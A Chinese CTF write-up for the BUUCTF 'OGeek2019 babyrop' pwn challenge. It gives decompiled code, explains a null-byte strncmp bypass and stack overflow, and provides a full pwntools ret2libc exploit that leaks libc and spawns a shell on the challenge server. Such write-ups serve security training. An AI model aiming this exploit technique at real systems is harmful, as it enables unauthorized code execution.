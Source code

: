 ```yaml
---
author: 
  name: Zephyr
title: OGeek2019 babyrop
date: 2022-3-21 11:20:02
permalink: /pages/2e1547494524d183
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# OGeek2019 babyrop

## 前提

### 查看文件保护

```shell
[*] '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

## 静态分析

主函数如下

```c
int __cdecl main()
{
  int buf; // [esp+4h] [ebp-14h]
  char v2; // [esp+Bh] [ebp-Dh]
  int fd; // [esp+Ch] [ebp-Ch]

  sub_80486BB();
  fd = open("/dev/urandom", 0);
  if ( fd > 0 )
    read(fd, &buf, 4u);
  v2 = sub_804871F(buf);
  sub_80487D0(v2);
  return 0;
}
```

sub_804871F函数如下

```c
int __cdecl sub_804871F(int a1)
{
  size_t v1; // eax
  char s; // [esp+Ch] [ebp-4Ch]
  char buf[7]; // [esp+2Ch] [ebp-2Ch]
  unsigned __int8 v5; // [esp+33h] [ebp-25h]
  ssize_t v6; // [esp+4Ch] [ebp-Ch]

  memset(&s, 0, 0x20u);
  memset(buf, 0, 0x20u);
  sprintf(&s, "%ld", a1);
  v6 = read(0, buf, 0x20u);
  buf[v6 - 1] = 0;
  v1 = strlen(buf);
  if ( strncmp(buf, &s, v1) )
    exit(0);
  write(1, "Correct\n", 8u);
  return v5;
}
```

sub_80487D0函数如下

```c
ssize_t __cdecl sub_80487D0(char a1)
{
  ssize_t result; // eax
  char buf; // [esp+11h] [ebp-E7h]

  if ( a1 == 127 )
    result = read(0, &buf, 0xC8u);
  else
    result = read(0, &buf, a1);
  return result;
}
```

部分函数表如下

![OGeek2019_babyrop_1](https://cdn.jsdelivr.net/gh/Zephyrccc/ImageHostingService/blog/OGeek2019_babyrop_1.png)

Gadget

```shell
ROPgadget --binary pwn --string "/bin/sh\x00"                             
Strings information
============================================================
```

## 思路分析

1. 程序分析:
   - 程度首先获取一个随机数，将该值用`strlen`函数与输入数据进行对比，不同则会终止程序，若相同则将`v5`返回，作为`sub_80487D0`函数的参数，若`v5=127`，则可以为`buf`写入`0xC8`字节数据，否则写入`v5`长度的数据
1. 目前信息：
   - `plt`表内没有`system`
   - 程序本体内并没有`/bin/sh`字符串
   - No PIE
3. 思路
   - 若能控制`sub_80487D0`函数的实参`v2`就可以实现超长字符写入造成栈溢出覆盖返回地址
   - `v2`是`sub_804871F`函数的返回值，在该函数内的输入点`buf`处是可以写入`0x20`字节的数据，虽然不够直接覆盖返回地址，但还是可以实现溢出修改上方`v5`即最后返回的值
   - 但要成功返回`v5`还要绕过与随机字符串比较的的过程，这里通过`strlen`函数遇到`\0`即终止并返回的特性，构造首位是`\0`的特殊输入数据绕过对比失败后的程序退出
   - 因该题`plt`表内并无`system`函数，也无`/bin/sh`字符串，所以应该首先泄漏`libc`和对应函数地址，利用泄漏到的信息，二次溢出获得`shell`

## exp

```python
from pwn import *
from LibcSearcher import *
context(os='linux', arch='i386', log_level='debug')
pwnfile = '/root/pwn/buuctf/OGeek2019_babyrop/pwn'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 29092)
elf = ELF(pwnfile)
payload = flat(['\0'*7, 255])
# 前置\0绕过推出，v5覆盖为255
io.sendline(payload)
io.recvuntil("Correct\n")
padding = 0xe7+4
main_addr = 0x8048825
write_plt = 0x8048578
write_got = 0x8049FEC
payload = flat(['a'*padding, write_plt, main_addr, 1, write_got, 4])
io.sendline(payload)
leak_write_addr = u32(io.recv(4))  # write真实地址
libc = LibcSearcher('write', leak_write_addr)
# 泄漏libc
libcbase = leak_write_addr-libc.dump('write')
system_addr = libcbase+libc.dump('system')
bin_sh_addr = libcbase+libc.dump('str_bin_sh')
payload = flat(['\0'*7, 255])
io.sendline(payload)
io.recvuntil("Correct\n")
payload = flat(['a'*padding, system_addr, 0xdeadbeef, bin_sh_addr])
# 获得shell
io.send(payload)
io.interactive()
```